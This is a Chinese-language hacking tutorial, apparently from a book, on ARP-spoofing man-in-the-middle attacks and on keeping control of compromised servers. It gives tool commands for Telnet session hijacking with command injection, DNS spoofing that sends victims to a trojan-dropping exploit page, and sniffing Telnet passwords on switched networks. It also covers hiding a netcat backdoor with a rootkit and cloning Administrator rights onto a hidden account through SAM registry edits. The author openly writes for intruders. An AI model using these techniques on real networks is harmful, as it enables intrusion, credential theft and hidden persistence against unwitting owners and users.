中间人攻击，英文缩写为 MIM 或 MITM，是 Man In The Middle 的缩写。这种攻击被称为是网络攻击中欺骗的典范，它的实现基于 ARP 欺骗。在被攻击者的一次与其他主机的正常通信中，攻击者暗中卷入其中并做一些手脚，比如修改数据包的内容。说卷入是比较形象的说法，专业一些的名词叫做接管，即攻击者接管了被攻击者和被访问主机的通信流，注意是接管，这就意味着通信照常可以正常进行，不过中间加入了一个第三者，但通信的双方却全然不知！这就是中间人攻击，一种十分隐蔽、危害性很大的网络攻击手法。

还记得我们前面模拟的环境吗？攻击者是 22，客户端主机为 21，服务器为 23。你可以把前两者看成网吧里的客户机，后者看成是任意一台网吧服务器。21 再和 23 进行一次会话，这时候 22 悄悄发动攻击了，于是它发送一个包到 21，包中的数据有：

```text
源32位IP地址: 192.168.56.23
源48位MAC地址: 00-0C-29-69-3E-26
目的32位IP地址: 192.168.56.21
目的48位MAC地址: 00-50-56-C0-00-08
```

同时 22 向 23 也发送一个包，包中的数据为：

```text
源32位IP地址: 192.168.56.21
源48位MAC地址: 00-0C-29-69-3E-26
目的32位IP地址: 192.168.56.23
目的48位MAC地址: 00-0C-29-8E-ED-4B
```

大家仔细对比前面测试环境中的 MAC 地址不难发现，两个包中的源 MAC 地址都是 22 的，这时候 21 会认为 23 的 MAC 地址是 22 的，于是它发给 23 的所有数据都发送到了 22 上，而反过来 23 回复 21 的数据包也都回复给了 22。这时候 22 做了一个关键性的动作，完美了这次攻击：它把 21 发送过来的包转发给了 23，把 23 发送过来的包转发给了 21。这样的话，貌似 21 和 23 之间的会话仍然是正常的，但此时攻击者 22 已经成为中间人了！


这就类似于我们日常生活中，A 要到 C 处买电脑，但它委托了 B 去办，B 到 C 处买了电脑回来转交给 A，但是 B 告诉 A 电脑的价钱是 5500 元，而实际价格是 5000 元，这样 B 就可以从中获益 500 元，这其中 B 做了虚假报账。这是现实生活中的中间人攻击，而在网络中，这种攻击更为隐蔽，因为建立会话的双方根本意识不到 B 的存在！现实生活中 B 谎报了价格来获利，网络中我们可以作孽的就是截获的数据包了，最常见的就是修改数据包中的内容然后发送给会话的双方以执行我们想要执行的操作。

## a、会话劫持

会话劫持，从字面上我们也可以看出它和中间人攻击已经靠得很近了。这是一种由来已久的攻击方式，但在内网的入侵中仍然经久不衰。我们将讲到的会话劫持针对的是一次 Telnet 会话，在客户端和服务端的会话过程中攻击者插了进来并接管了会话，虽然通信仍然可以继续，但所有的请求和回复数据包都在攻击者的眼皮底下了。这时候攻击者向其中一个发送给服务器的数据包中加入了恶意数据，在服务器接收到这个数据包后就执行了那些恶意代码，攻击者就达到了目的。


```bash
xhijack 192.168.56.23 192.168.56.21
...
Please choose your adapter->
```


接下来进入会话劫持攻击实战。客户端 21 需要登录 23 的 Telnet 服务器进行远程管理，攻击者 22 预料到了这一点，于是准备实施攻击。首先得进行 ARP 欺骗改变通信流，然后实现包转发。这些动作可以分步实现，但实践起来有些繁琐，这里使用一个综合前面所有步骤的工具：xhijack。它是一个包含 ARP 欺骗、包转发和数据插入的会话劫持工具，非常适合菜鸟朋友使用。

如果要实现包转发，首先得开启操作系统的 IP 路由功能，这个功能在注册表中的项下：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`，把里面的 `IPEnableRouter` 值修改为 1。注意这个功能需要重启生效。

```bash
C:\Documents and Settings\NINJA>ipconfig / find "IP"
IP Address . . . . . . . . . . . . : 192.168.56.21

C:\Documents and Settings\NINJA>arp -a
192.168.56.22  00-0c-29-69-3e-26
192.168.56.23  00-0c-29-69-3e-26

C:\>ipconfig / find "IP"
IP Address . . . . . . . . . . . . : 192.168.56.23

C:\>arp -a
192.168.56.21  00-0c-29-69-3e-26
192.168.56.22  00-0c-29-69-3e-26
```


然后就可以用 xhijack 进行会话劫持了，它的命令格式为 `xhijack ServerIP ClientIP`，ServerIP 为服务端 IP，后面的是客户端 IP，所以要想劫持首先得知道哪个客户端要登录哪个服务端。值得一提的是，这个工具的使用不仅限于局域网，在广域网的远程登录我们也可以劫持，不过这里不再展开。

回车即可劫持会话了。这时候 xhijack 已经完成了双向的 ARP 欺骗和包转发了……劫持成功后就可以进行数据注入了，xhijack 提供的数据注入方式为注入一个 cmd 命令……因此在这次试验中我只能注入一条命令了，如果你还想再注入命令的话，还需要再重新劫持一次……


来看看操作吧！首先使用参数 `l` 查看当前客户端和服务端的连接……目的是得到连接号，在后面的命令中要用到……下面就可以往通信数据包中注入命令了……要想命令一定能执行成功就一定要用 “&” 符号……在注入完成后客户端一旦输入任何字符都会马上断开与服务端的连接……在客户端输入了数据并断开连接后，劫持者就会提示劫持成功了……其中 `Send RST packet OK!` 中的 RST 包就是用来断开客户端和服务端连接的……

成功加入用户 fox，但是没有加到管理员组中……以上就是一次完整的会话劫持过程……注入的命令也未必都能执行成功，不过貌似一般登录 Telnet 服务器的都是管理员吧，哈！

## b、DNS 欺骗

DNS（Domain Name Server），即域名解析服务，它是一个非常有用的服务……它可以把指定的域名解析为 IP 地址……这个工作就是 DNS 服务器做的。

有 DNS 服务器就有 DNS 客户端，也就是发送 DNS 请求的那一方，一般我们的网络操作系统都可以看作是一个 DNS 客户端。DNS 的工作原理是这样的：

- 1. DNS 客户端要访问“黑客手册”官方网站，于是在 Internet 浏览器中输入了域名：`www.nohack.cn`
- 2. 包含有域名的数据包被发送到 DNS 服务器上
- 3. DNS 服务器收到请求，并在自己的 DNS 列表中寻找域名 `www.nohack.cn` 对应的 IP 地址
- 4. DNS 服务器将这个 IP 地址回复给 DNS 客户端
- 5. DNS 客户端通过这个 IP 地址访问到了 `www.nohack.cn`

一个 DNS 客户端在被安装的时候会被指定一个 DNS 服务器 IP 地址，DNS 客户端通过这个地址获得指定域名的 IP 地址。网络上存在着无数的 DNS 服务器，但它们之间还是有一定层次关系的。关于 DNS 的更多内容大家可以参考专业文档，下面我们来看 DNS 欺骗。

第一次见到 DNS 欺骗这个词，感觉怎么跟 ARP 欺骗那么像呢，而没想到它和 ARP 欺骗还真有点关系。前面我们对 DNS 已经有一个大致的了解了，下面我们需要了解一些 DNS 解析过程中的细节。其实一台要访问 Web 的客户机在向 DNS 服务器发出请求之前，会先检查本地一个文件里是否有要访问的域名的 IP 记录，如果有的话则直接使用记录中的 IP，如果没有才向 DNS 服务器发出请求。这个文件就好像 ARP 缓存表一样，不过这个文件是静态的，不像 ARP 缓存那样可以实时被更新。这个文件的路径是 `%systemroot%\system32\drivers\etc\hosts`。

```text
127.0.0.1    localhost
127.0.0.1    download.3721.com
10.10.0.1    www.nohack.cn
```

其中 127.0.0.1 是回送地址，这个地址保留不在网络中使用，这里用这个地址表示本地。记录中有两个 127.0.0.1 的对应，那就是说访问 localhost 或者 download.3721.com 都会被转到本地，也就无法访问了，这种方法经常被用来屏蔽某些网站。从这里我们也不难看出可以实施欺骗，比如最后一条把“黑客手册”的官方地址转到了 10.10.0.1 这个 IP 上，这时候如果客户端在浏览器中输入 `www.nohack.cn` 这个域名，就会访问到 10.10.0.1 这个 IP 了，这就是 DNS 欺骗的原理，即访问一个域名但是返回一个包含假域名对应 IP 的 DNS 回复。

远程使用 hosts 文件实现 DNS 欺骗是很困难的，你得获得一个写 hosts 文件的权限。而在网络中尤其是 LAN 中，获得一个 DNS 请求相对要容易许多。客户端在向 DNS 服务器发送请求的时候，会在本地生成一个随机的 ID，这个 ID 将包含在数据包中然后发送给 DNS 服务器。DNS 服务器回复给客户端的数据包中不仅仅包含了请求的域名的 IP，也包含了前面生成的 ID。客户端在本地对比这两个 ID，如果这两个值是相同的，那么则认为这个回复包是有效的，使用其中的 IP 访问，否则丢弃这个包。这就是 DNS 的验证机制了。


因此很容易想到，如果攻击者劫持到这个 DNS 请求的话，并伪造一个包含有和请求包中的随机 ID 相同 ID 的回复，那么 DNS 欺骗同样可以实现。除了那个 ID 外，需要攻击者指定一个想要受害人访问的 IP，通过这个 IP 使目标主机访问到事先安排好的恶意网页。可以看出 DNS 欺骗的攻击手法也是相当有趣的，算是间接攻击的典范了。

在进行 DNS 欺骗之前，先要在本地做一些工作。首先你得在本地搭建一个 Web 服务器，其次你得准备一个恶意网页。提到 Web 服务器，大家熟知的是 IIS 和 Apache，但是它们体积都太大且配置繁琐。这里提到一个较小巧的工具 NetBox，可用于搭建简单 Web 服务环境。我们不要求 Web 服务器支持 ASP 脚本，有一个 Web 环境就可以了。

- 1. 在任意目录下新建一个文件夹，这里新建文件夹 `web`
- 2. 在新建的文件夹中新建文件夹 `wwwroot`，并新建一个文本文件并打开
- 3. 把下面的代码复制到刚刚新建的文本文档中：

```vb
Set Console = Shell.Console
Set httpd = CreateObject("NetBox.HttpServer")
If httpd.Create("", 80) = 0 Then
    Set host = httpd.AddHost("", "\\wwwroot")
    host.AddDefault "index.htm"
    httpd.Start
    Console.ReadLine
    httpd.Stop
    httpd.Close
End If
Set httpd = Nothing
```

- 4. 文本文件另存为 `main.box`

就这么简单，一个 Web 环境搭建好了！我解释一下上面代码中的几个重要语句：`If httpd.Create("", 80) = 0` 设置访问 Web 服务的端口，默认是 80，而我们一定要使用这个端口，因为被攻击者只能访问我们的 IP，无法指定端口；`Set host = httpd.AddHost("", "\\wwwroot")` 设置 Web 服务器的根目录，默认是 wwwroot；`host.AddDefault "index.htm"` 设置默认主页名称……这样别人访问我们的 IP 才能直接访问到恶意网页。

Web 环境有了，下面制作恶意网页。这类网页一般利用 IE 的漏洞生成，网上有很多类似网页木马生成器。这些工具的原理就是利用 IE 的缓冲区溢出漏洞在客户机上下载并执行一个事先在网页中安排的程序。下载程序是需要时间的，如果下载时间太长会引起怀疑，因此通常需要体积较小、执行隐蔽的后门或下载器配合使用。

下载者与网页木马生成器根据具体情况而定。文中示例先生成服务端并复制到 wwwroot 目录，再配置下载者。在地址栏中填写 `http://192.168.56.22/setup.exe`（按实际 LAN 地址替换），并将生成文件（如 `down.exe`）同样放入 wwwroot，其 Web 路径如：`http://192.168.56.22/down.exe`。


在 exe 地址中填入 `http://192.168.56.21/down.exe`，点击生成即可。会在当前目录下生成一个 `ms06014.htm` 网页文件，将其复制到 wwwroot 后启动 Web 服务。若窗口太显眼，可以将 NetBox 定义为服务方式运行。

下面进行 DNS 欺骗。示例使用 DNSHack 工具。文中提到在某些环境下若无 WinPcap 支持可能无法欺骗，且在 XP 上测试可能存在兼容性问题，因此在虚拟机环境中演示 DNS 欺骗过程。

继续以前面的 3 台主机为例，网关为 192.168.56.21。DNSHack 命令形式为：`DNSHack LocalIP SpoofIP`，前者是本机 IP，后者是被攻击者访问的 IP。示例命令：`dnshack 192.168.56.22 192.168.56.22`。执行后访问目标站点可观察到欺骗响应。

虽然漏洞利用未必成功，但 DNS 欺骗已生效：访问“黑客手册”官方网站时显示了预期的替代页面，说明 DNSHack 端已有反应（对应图 6-3-19）。

这说明 23 的这个 DNS 请求被我们劫持到了，其中的 32 位源 IP 地址是发出 DNS 请求的主机的，32 位目的 IP 是 DNS 服务器地址。当然这不是一次有效的攻击，因为恶意网页没有成功执行程序并且网页没有做伪装，这些事情大家自己解决。为了使 DNS 欺骗的效果更明显，我将 22 的主页设置为一行字 `This is DNS Spoof on [Server22]`。另外我们可以使用 DNSHack 将被欺骗者引向另一个 IP，比如我这里在 22 上进行 DNS 欺骗，把发起 DNS 请求的用户引导向 192.168.56.21。这里我已经在 21 上搭建好了 Web 服务器，主页上只有一行字 `This is DNS Spoof on [Server21]`。我在 22 上输入命令 `dnshack 192.168.56.22 192.168.56.21`，然后在 23 上访问 Web，如图 6-3-20。


看到了吧！我访问 `www.nohack.com` 就访问到了 192.168.56.21 的主页，这就是 DNSHack 的特点：可以自定义欺骗到哪个 IP，但是它有一个致命的弱点：无法指定要欺骗谁。我这里加虚拟机有三个系统，我在欺骗的时候另外两台都是可以被欺骗的，那就是说它会对局域网中的所有客户机进行欺骗，包括自己，只要这些主机的网关 IP 是一致的！后来向软件作者了解到，原来 DNSHack 只能用于广播网络，即用集线器架构的星形网络拓扑结构，这样的话就明白了。看来用 VMware 虚拟机虚拟的网络环境是基于广播的而非交换的。

这样的话我们在基于交换网络的网吧用 DNSHack 就无法做 DNS 欺骗了，不过不要忘了 ARP 欺骗哦，前面我说过它和 DNS 欺骗是有关系的嘛！这里我只提供给大家思路，剩下的事情根据前面学习的 ARP 欺骗知识自己完成。我们可以先使用 Winarp_sk 对目标主机进行 ARP 欺骗，让它的 ARP 缓存表储存网关的 MAC 地址和本地主机的 IP 地址，这样它就会把所有将要发给网关主机的数据包都发送给我们，因此这时嗅取一个 DNS 请求还不是小事一桩。DNSHack 在获取到目标主机的 DNS 请求后，会自动回复它域名对应的 IP 地址为我们设置好的 IP 地址，这样就把目标引入了我们事先安排好的陷阱网页了。

DNSHack 是一个比较老牌的工具了，开发它的时候想必集线器的使用还是比较普及的。对于交换网络我们可以像上面说的那样进行欺骗，而不要忽略广播网络，在一些小型的对网络质量要求不太高的场所集线器还是有用的。DNSHack 中没有选项指定要欺骗谁，因此在集线器架构的局域网中使用它要十分小心。一旦用它开启了 DNS 欺骗，除了你想欺骗的目标主机外，局域网中的所有客户机就都无法正常访问网页了，这必将引起骚动。这对于入侵者来说是十分不利的，因为一个入侵者总是想要自己的一切活动都是不为人知的。因此在广播网络中使用 DNSHack 要非常谨慎，最好还是不要用的好，或者用下面将要讲到的另一种方法。

对于上面讲到的这种 DNS 欺骗，如果被攻击者访问了一个曾经访问过的网页，也是无法欺骗成功的，因为有 Internet 临时文件夹的存在，IE 会直接浏览这个已访问过的网页而不去发送 DNS 请求。我们讲到的这个 DNS 欺骗方法只是 DNS 欺骗攻击中的一种，其实 DNS 欺骗的使用更多的情况是在 WAN 中，最直接的攻击方法是入侵 DNS 服务器，当然这是比较难的了。还有一些 DNS 欺骗方法，比如“Web 服务器重定向”“邮件服务器重定向”等，由于我们是在网吧的环境中，因此不再继续讲解。

## 6.3.3、基于交换网络的嗅探

本来网络嗅探是一种非常有效的攻击方式，但是交换网络的广泛使用使得传统意义上的嗅探变得不再像从前那样有效，也正是因为这样，一种新的基于 ARP 欺骗的嗅探方式被人们所熟知并利用在了渗透活动中。要理解这些内容我们先要知道嗅探的原理。

网卡有两种模式，一种模式允许网卡只接收发送给自己的，而另一种模式则是接收所有经过自己的数据包，后面这种模式叫做混杂模式。早期的星形网络大多是使用集线器组织起来的，集线器这种设备比较低级，它会把通信发起端计算机的请求直接在网络中广播来寻找通信的目的主机。广播意味着所有的主机都可以得到发送方的数据包，只要把网卡设置成混杂模式，基于 HUB 的网络中的数据包都会被攻击者的主机拦截到。HUB 被淘汰了，不仅仅是因为它的低效率，它的工作方式也使嗅探变得非常肆意，在这样的网络中随便在一台主机上开一个嗅探器都可以获得大量的敏感信息。综上所述，交换网络代替了 HUB 组织的星形网络。

当然交换网络也是星形网络，不同点就在“交换”二字上。相对于 HUB，交换机要智能许多，像网络中的其他计算机一样，它同样会在本地维护一个 ARP 缓存表，因为它的每一个接口连接了一台计算机，它的对应情况就是 Port-MAC 地址。但可惜的是大多数情况下这个 ARP 缓存表也是动态的，一个包含了新记录的数据包经过交换机的时候可以刷新它的 ARP 缓存，这就像欺骗计算机一样，交换机同样可以被欺骗。

基于交换网络的嗅探就是先对交换机进行 ARP 欺骗，使目标主机的数据包都流向攻击者的主机，然后攻击者在本地做数据转发，将数据转发到目标主机发送数据的目的主机，而同时攻击者开启了嗅探器获得自己想要得到的信息。可以说基于交换网络的嗅探也是中间人攻击，具体实现的细节我们就不深究了，这里我们用小榕的 ArpSniffer 进行交换网络的敏感信息嗅探的演示。

```text
ArpSniffer 从某个角度说也算是一种 ARP 欺骗工具，所以基本上它也就需要 WinPcap 驱动的支持了，并且我在 WinXP 上使用它也没有成功过，让我好生郁闷。这里我们依然在 Win2000 环境下进行测试，同时观看嗅探效果。安装好 WinPcap 驱动后我们就可以着手嗅探了，先来看工具的用法：

ArpSniffer <IP1> <IP2> <Sniffer TCP Port> <LogFile> <NetAdp>
```

登录 Telnet 服务，IP1 就是 Telnet 服务器的 IP 地址，而 IP2 自然就是目标主机的 IP 地址了；Sniffer TCP Port 是要过滤的端口。我们知道不同的端口对应了不同的服务，因此如果你想嗅探到目标主机登录 Telnet 服务的信息，过滤的端口就应该是 23，而 FTP 服务对应的就是 21。LogFile 指的是嗅探到的信息保存到本地的哪个文件，我们一般指定一个文本文件就可以了。最后的 NetAdp 大家都猜到了吧，它就是要使用的网卡编号，这里是 0。好了，所有的参数我们都了解了，下面开始嗅探。首先我们模拟攻击环境：


- 攻击者：192.168.56.22
- 服务器：192.168.56.23
- 客户端：192.168.56.21

攻击者首先通过一些手段知道服务端开放了 Telnet 服务，并且 192.168.56.21 将要登录服务端的 Telnet 服务，因此它准备发动嗅探攻击。在命令行下输入如下命令，嗅探器马上开始工作了，如图 6-3-22。

```bash
ArpSniffer 192.168.56.23 192.168.56.21 23 log.txt 0
```


ArpSniffer 开始工作后，在网卡描述信息的下面，工具首先打开了本地的 IP 路由功能：IP Router......OK，这样就可以在本地做数据包的转发了，这和 XHijack 是一样的。然后下面在屏幕上打印出的内容告诉了我们 ArpSniffer 的工作原理：

```text
Get 192.168.56.23 Hardware Address: 00-0c-29-8e-cd-4b
```

这三行内容告诉我们 ArpSniffer 首先得到了攻击者、客户端以及服务端的 MAC 地址，下两行内容告诉我们欺骗的流程和原理。

- 1. 欺骗 192.168.56.21，192.168.56.23 的 MAC 地址是 192.168.56.22 的
- 2. 欺骗 192.168.56.23，192.168.56.21 的 MAC 地址是 192.168.56.22 的

经过这两个步骤后，21 和 23 的通信流就被暗中改变了，22 成了中间人，但是被攻击的双方竟然毫无察觉！这时候攻击者开始嗅探了：Begin Sniffer......

整个攻击流程我已经展示出来了，这时候如果客户端要登录服务端的 Telnet 服务，我们就可以嗅探到它发送给服务端的任何信息，包括登录过程中必须要验证的系统用户名和密码，而这正是我们想要的！只要嗅探一直持续下去，我们就可以获得服务器的某个用户的密码（通常登录 Telnet 服务的都是管理员吧！），然后就可以使用一些手段进入服务器并控制它。


从整个攻击过程可以看出，最终我们要入侵的主机是服务器而非客户端，一般服务器的利用价值要更大一些！对于没有开启类似 Telnet、FTP 服务的客户机来说，我们可以尝试嗅探 80 端口，也许可以得到它的一些网站账户信息。不过 ArpSniffer 获取信息的过滤功能不是很好，很多无用的信息也会被抓取到，如图 6-3-23。

最初嗅探到的信息里，往往只有每一行的第一个字符对我们是有利的，它是用户名或者密码的一个字符。将最开始嗅探到的信息的第一个字符叠加起来，你也许会发现它是一个很眼熟的用户名，密码也可以用这种方式拼凑出来。因此分析 ArpSniffer 嗅探到的信息需要攻击者的一些经验，能分辨哪些信息是有用的、哪些信息是无用的。像我前面说的那样，找每一行的头一个字母是一种方法，另外根据服务提示找登录用户名或者密码也是一个方法。

基于交换网络的嗅探就讲到这里，插图不是很多。如果你对这个过程很难想象的话，可以参考我做的动画，另外自己多尝试也是一个学习的好方法。

> 【迷津指点—网卡错误以及解决办法】

在使用 ARP 欺骗工具的时候，碰到网卡出错是经常的事情，这些出错信息是在你安装了 WinPcap 驱动后出现的。笔者总结了一些工具网卡错误的表象以及解决办法，希望能对大家有帮助。

- 1. **winarp_sk 使用时的网卡错误**

```text
Adapters installed

1-

Select the number of the adapter to open.
```

这多半是由操作系统问题引起的，我在 WinXP 下使用 winarp_sk 的时候经常出现这种错误。出现这个信息首先说明这时候工具已经找到了网卡驱动，但是编号 1 后面并没有打印出网卡描述，所以你即使选择了 1 号网卡也是无用的。

```text
Adapters installed:

Unable to retrieve the list of adapters!
```

这是由驱动程序的问题造成的，很可能是 WinPcap 的版本过低或者不匹配。这时候你可以使用其它版本的 WinPcap。有时候使用 winarp_sk 的时候会出现一个“winarp_sk.exe 遇到问题需要关闭”的消息框，这除了和驱动程序错误有关外，也和操作系统有关。

- 2. **dnsspoof**

```text
Unable to open the driver, Error Code: 14
Open adapter failed
Error opening adapter
```

DNSSpoof 也是一个 DNS 欺骗工具，它类似于 DNSHack，是 Dsniff 的安全套装工具之一，在 Windows 平台上有移植。这个工具的使用在我做的 DNS 欺骗动画里有演示。使用它出现以上错误，多半也是因为操作系统的问题。

解决办法：首先查看是否本地网卡停用或者禁用了网络连接。如果情况为否，到服务中查看服务“Remote Access Connection Manager”是否开启，没有的话开启它。在保证了这两点后，如果工具还是出现网卡错误，那么你就应该更换 WinPcap 驱动程序后再尝试；再次失败的话只能更换操作系统了，Windows 2000 是一个不错的选择。

## 6.4、小结

我们已经了解了 ARP 欺骗并且学习了它的一些攻击方法。尽管这种攻击方式由来已久，但至今仍然是最有威胁的入侵手段之一，也可以算是黑客的必备技能之一了。ARP 欺骗攻击在网吧用得比较多的是造成网络阻塞，就像去年流行的 ARP 病毒那样；而在入侵服务器方面，会话劫持以及基于交换网络的嗅探使用非常广泛，杀伤力也是很大的。在入侵内网的活动中，ARP 欺骗也是必不可少的攻击手段。笔者希望大家通过对本章的学习能明白 ARP 的工作原理以及 ARP 欺骗的攻击原理，同时掌握一些基于 ARP 欺骗的攻击方式。相信这些东西有助于你学习其它网络知识，同时可以让你的入侵更绚丽多姿。

## 7、权限保持

首先我们要知道什么是权限保持。有时黑客在成功入侵了一台服务器后，总是想占用这台肉鸡尽量多的时间，以备不时之需。但是肉鸡主人在服务器上的各种操作可能使攻击者在这台主机上的权限丧失，而这不是攻击者想要看到的，因此在入侵成功后为了保住胜利果实，一般就要做一些后期工作了，这就叫权限保持。

为了保住肉鸡，黑客们通常用比普通方式更为隐蔽和“另类”的方法在肉鸡上安装一些程序或者做一些操作。首先为了能在下次更方便地进入这台肉鸡，我们通常会在这台主机上安装木马服务端，这样每次进入它，我们使用木马客户端连接服务端就可以了，而不用再像以前那样重复入侵时的步骤了。像我们前面介绍过的类似 Rmtsvc 一样的木马，包括 C/S 模式的一些远程控制程序，比如“上兴”，它们的功能都很强大，像屏幕监视、摄像头监视等。因此它们的服务端程序一般都很大，并且由于技术等方面的原因，它们的进程、服务或者端口等都是可见的（当然不排除有例外），这些因素都导致了它们非常容易被发现。失去木马服务端也就意味着丢失了一台肉鸡的控制权，痛苦……因此，很多时候我们想要重返肉鸡的时候，这些图形界面的远程控制软件并不是最佳选择，取而代之的是后门。

### 7.1、后门与 RootKit 的使用

### 7.1.1、后门及隐藏技术简介

后门也是一种木马，不同于远程控制软件，它一般没有客户端，用户一般使用一个命令行工具来连接它，并且操作都是在命令行下的。它一直潜伏在目标系统中，只有用户来连接的时候才发挥作用，因此它的潜伏性更强，更不易被发现。它一般只有简单的功能，这个功能一般是使用户获得一个权限很高的 SHELL（通常是 CMDSHELL）或者进行一些简单的操作，但是通过后门可以使用第三方程序扩展更强大的远程控制功能。

后门由于只实现简单功能，因此在技术上降低了很多难度，这就给它在隐蔽性方面的设计提供了空间。后门一般通过一些隐藏方式隐藏自己：隐藏进程、隐藏硬盘文件、隐藏打开的端口、隐藏服务等。这样肉鸡的主人就很难发现它了，而我们仍然可以通过后门来远程操纵肉鸡。最初的后门虽然也实现了简单功能，但是隐蔽性很差，比如国产的孤独剑客的 WinShell 等，它们都是以 exe 为后门的主程序。后来为了提高隐蔽性出现了 dll 后门程序，比如小榕的 B1TS 和 yyt 的 Hacker's Door，它们都是不错的作品，至少在进程方面隐藏得很好。因为 DLL 文件不是可执行程序，因此它们不会出现在进程列表中。后来在远程控制类木马和后门的开发上又引入了一些新的隐藏技术，比如插入进程。它将木马程序进程插入到正常程序进程中，在正常程序执行的时候木马也就执行了，而通常这个宿主进程是一个系统进程。还有很多高明技术我们不再继续讨论，接下来我要讲到的不是一款后门，或者说即便算后门也只能算一个辅助性的后门程序，很多人称这样的程序为 RootKit。

### 7.1.2、系统卧底 RootKit

RootKit 具体是什么我也说不清楚，但就它的功能来说可以描述为：能够使一个网络应用程序具有后门一些特性的第三方程序。后门有什么特性呢？最大的特性莫过于它的隐蔽性，RootKit 就可以隐藏一个程序的一些表面信息，比如进程、硬盘文件、服务、端口等。这样的话，即使我们使用了功能强大的图形界面远程控制工具也不容易被发现了。RootKit 程序有很多，这里作为实验品的是 AFK RootKit 2005，这是一款国外的 RootKit 工具。使用它可以隐藏指定程序的：进程、句柄、模块、文件及目录、注册表键值、服务、TCP/UDP 端口以及系统任务栏图标，可以看出它的功能是相当强大了。


下面让我们来看看 AFKRootkit2005 的用法。首先建立一个特殊名字的文件夹，注意这个文件夹名字一定要特殊，最好在硬盘其它地方都没有这个文件夹。我这里以 Fornever 为例，分别在 E 盘和 F 盘下建立了两个名为 Fornever 的文件夹，并在 E 盘的 Fornever 目录下放入了一些文件。我们转到 F 盘的 Fornever 文件夹，将 AFKRootkit2005 的主程序 root.exe 复制到这里，并且你的后门程序或者远程控制程序服务端也要放到这里。这里我以 NC 为例，在本地监听端口 114，命令为：nc -l -p 114 -vv，然后我们在本地查看进程和端口情况，如图 7-1-1。

```bash
nc -l -p 114 -vv
start f:\fornever\root.exe /i
```

进程和监听端口都是可见的，这时候我们来安装 AFKRootkit。打开一个命令提示符，在命令行下输入以上命令；就这样 AFKRootkit 就安装完毕了。这时候系统中所有名字为 Fornever 的目录中的文件都是不可见的，并且这些目录中程序的进程、进程模块、端口、服务等都是不可见的。以后你要隐藏什么程序的话，往 Fornever 这个目录里放文件就可以了。

我们再来说说注册表键值隐藏，其实非常简单，只要把注册表键值以我们指定的目录名开头就可以达到隐藏目的了。比如我的例子是 Fornever，我们就可以建立一个 Fornever 的注册表项，其下所有子键和值就都不可见了。

最后有几点要注意：你建立的文件夹名称一定要特殊，否则可能造成其它正常程序执行异常。并且我在 WinXP Professional SP2 上安装 AFKRootkit 的时候多次蓝屏，这时候就安装失败了，大家要小心这点。

### 7.2、账户克隆

很多朋友在肉鸡上留权限的时候喜欢给自己建立一个账户，在下次登录系统的时候可以直接利用肉鸡提供的一些服务，比如 IPC$ 或者 Telnet。这的确是一个简便的方法，不过隐蔽性太差了，很容易被管理员发现，于是针锋相对地又有了对账户的隐藏方法。


### 7.2.1、简单的账户隐藏

最初的账户隐藏方法很简单，黑客利用了命令行的一个特性来“隐藏”账户。在 CMD 下，如果用户名后面跟了一个 `$` 符号，那么这个用户在 CMD 下是不可见的，如图 7-2-1。我们新建了一个用户 nohack$，但是使用 `net user` 命令查看用户却并没有看到这个用户，而这个用户的确是存在的，这就在表面上实现了账户隐藏。但正如前面所说，这是由 CMD 的特性决定的，因此这种方法只对在 CMD 下查看用户的方式有效，从图形界面查看就没办法隐藏了，如图 7-2-2。


这种情况下就要求我们使用其它方法对账户进行隐藏了，这种方法就是我们即将讲到的账户克隆。

### 7.2.2、账户克隆与原理解析

笔者最初接触账户克隆是从一个小工具开始的，它是 CA。CA 是小榕的账户克隆工具，使用非常简单，它支持网络远程克隆，但是需要 IPC$ 的支持。我们不是要讲 CA 的用法，而是教你如何手工克隆一个账户，从中我们可以学到账户克隆的原理。

首先我告诉你，账户克隆是通过修改注册表实现的。我们在编辑注册表之前，必须先取得当前登录用户查看账户管理对应注册表项的权限，然后才可以进行操作。管理本地计算机用户和组的键位于 `HKEY_LOCAL_MACHINE\SAM\SAM`，一般情况下这个键下是没有内容的，并不是真正没有内容，而是你没有权限查看。


所以首先我们得把权限赋给当前用户。在 SAM 键上点击右键并选择“权限”，即可看到默认情况下即便是 Administrator 也没有任何权限。把“允许”对应的“完全控制”勾选后，就赋予了指定用户查看和修改 SAM 键的权限。


赋予权限后，刷新注册表，SAM 键下就会出现子项。到 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\nohack$`，将 nohack$ 项导出为注册表脚本文件 `nohack.reg`。然后编辑脚本并查看其中一个值，这个值叫 SID，是标示用户的特定值。

每个用户都有唯一 SID，例如 Administrator 的 SID 为 `1F4`，Guest 的 SID 为 `1F5`。在导出的 nohack$ 脚本中包含了该用户的 SID（@ 符号后面的值），这里值为 `3EF`（十六进制）。


记住用户 SID 后，在 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users` 下分别导出以 Administrator SID 命名的项（如 `000001F4`）以及以 nohack$ SID 命名的项（如 `000003EF`），分别为 `1f4.reg` 和 `3ef.reg`。

导出 `000001F4` 是因为我们要克隆的账户来源是 Administrator。编辑 `1f4.reg`，将其中 F 后面的值复制并覆盖 `3ef.reg` 中对应 F 后的值，保存后导入。然后可以删除 nohack$ 用户（例如 `net user nohack$ /del`）。

此时系统中用户可能不再正常显示，但通过导入脚本可以“复活”该用户。由于其特殊用户名及非正常创建方式，它不会出现在 CMD 和用户管理器中。克隆完成后，nohack$ 账户可获得与 Administrator 相同的权限，而在常规界面中难以被发现。

下面解释其原理：账户在 CMD 下的隐藏主要由于特殊用户名，在用户管理器中的隐藏则由于该账户不是在正常流程中创建。系统承认 SAM 键下新增用户，但用户管理程序通常不显示它。把 Administrator 的权限值赋给 nohack$ 后，即获得同等高权限。

可以看出账户克隆是一种较隐蔽的保持权限方法，也可理解为一类后门。但要注意：克隆后的账户不宜再修改密码，否则可能重新出现在用户管理器中。因此应在克隆前先设置好目标账户密码。

### 7.3、其它

除了我们自己安放后门或者对系统做一些修改外，系统原来的一些敏感信息也可能对我们有用。比如前次我进入过一个网站服务器，当时没有想霸占它多少时间，于是只放了个 Rmtsvc 进去。可没想到过了一段时间又要用到它的时候，我的小马早已一命呜呼了。痛定思痛，想起了自己临走前的一次“游击”行为：我用 Findpass 将肉鸡的所有活动用户密码都破解出来并留有备份；服务器上安装有 Pcanywhere，我将连接密码也破解得到了；还有各个网站的数据库——下载……是够黑的了。多亏留了这一手，要不我还如何重返这台可爱的肉鸡呢？最后我就是借助 Pcanywhere 的管理员连接密码再次获得这台主机权限的。

